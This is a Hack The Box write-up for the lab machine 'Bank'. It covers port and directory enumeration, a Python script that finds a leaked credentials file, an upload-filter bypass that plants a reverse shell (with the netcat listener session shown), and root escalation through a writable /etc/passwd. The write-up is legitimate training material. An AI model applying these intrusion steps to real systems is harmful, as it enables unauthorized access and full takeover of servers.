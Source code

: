 ```yaml
---
layout: post
title: Hack the Box - Bank
date: 2020-08-11 13:54:22 +0100
description: Bank is a relatively simple machine, however proper web enumeration is key to finding the necessary data for entry. There also exists an unintended entry method, which many users find before the correct data is located.
img: bank.png
fig-caption: Bank
categories: HackTheBox
tags: [Easy, Linux, Retired, CTF]
---
```

## Overview
Bank is a relatively simple machine, however proper web enumeration is key to finding the necessary data for entry. There also exists an unintended entry method, which many users find before the correct data is located.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bank]
└─$ sudo nmap -p- -T4   10.129.117.190 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 14:10 GMT
Nmap scan report for 10.129.117.190
Host is up (0.016s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.28 seconds
```
After port enumeration it is relatively clear that port 80 is what we should focus on, but when we navigate to it in the browser we only receive the default page. Slightly annoyingly the hostname needs to be guessed `bank.htb`, when we use that though we are greeted with a login page. On fuzzing that domain name we find an unusual directory `balance-transfer`.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bank]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bank.htb/FUZZ      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://bank.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

uploads                 [Status: 301, Size: 305, Words: 20, Lines: 10]
assets                  [Status: 301, Size: 304, Words: 20, Lines: 10]
                        [Status: 302, Size: 7322, Words: 3793, Lines: 189]
inc                     [Status: 301, Size: 301, Words: 20, Lines: 10]
                        [Status: 302, Size: 7322, Words: 3793, Lines: 189]
server-status           [Status: 403, Size: 288, Words: 21, Lines: 11]
balance-transfer        [Status: 301, Size: 314, Words: 20, Lines: 10]
:: Progress: [220547/220547] :: Job [1/1] :: 2573 req/sec :: Duration: [0:01:34] :: Errors: 0 ::
```
When we go to the balance-transfer directory we see multiple files, to help find an unusual file I wrote a script to help find it.
```py
import urllib3
from bs4 import BeautifulSoup

def get_url_paths(url, ext='', params={}):
    http = urllib3.PoolManager()
    response = http.request('GET', url)
    if response.status == 200:
        response_text = response.data
    else:
        return response.raise_for_status()
    soup = BeautifulSoup(response_text, 'html.parser')
    parent = [url + node.get('href') for node in soup.find_all('a') if node.get('href').endswith(ext)]
    return parent

url = 'http://bank.htb/balance-transfer/'
ext = 'acc'
result = get_url_paths(url, ext)
http = urllib3.PoolManager()

for account_url in result:
    response = http.request("GET", account_url, preload_content=False)
    content_bytes = response.headers.get("Content-Length")
    if int(content_bytes) < 581:
        print(content_bytes + ": " + account_url)
    if int(content_bytes) > 585:
        print(content_bytes + ": " + account_url)
```
When we find that file we can see login credentials contained within.
## Foothold
On browsing the site we find a support page that you can use to upload files, located in the source code on the page is a comment that says you can use the `.htb` extension to bypass the upload filter. When we do this we can upload a reverse shell, then access it in the uploads folder.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bank]
└─$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.117.190] 35620
www-data@bank:/var/www/bank/uploads$ whoami
whoami
www-data
```
## Privilege Escalation
When running linpeas we see that `/etc/passwd` is writable. So I took a copy of the current `passwd` file generated a new password hash and added a line for a new user with the same uid and gid of root then copied it back up to the server.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/bank]
└─$ mkpasswd --method=SHA-512 --stdin                                                                                                                                                                                                  130 ⨯
Password: random
$6$Odmo32dEorRGP6Fd$gxwLG7SEJks59m90cpk6nZdVPlaXylsGoWYEVRiVdisbZuHUesHZPgUQrbP.4i338A7K4J9d67CghfiRkCzpL0
```
After doing that we can switch to that new user
```
www-data@bank:/tmp$ su test
su test
Password: random

root@bank:/tmp# whoami
whoami
root
```
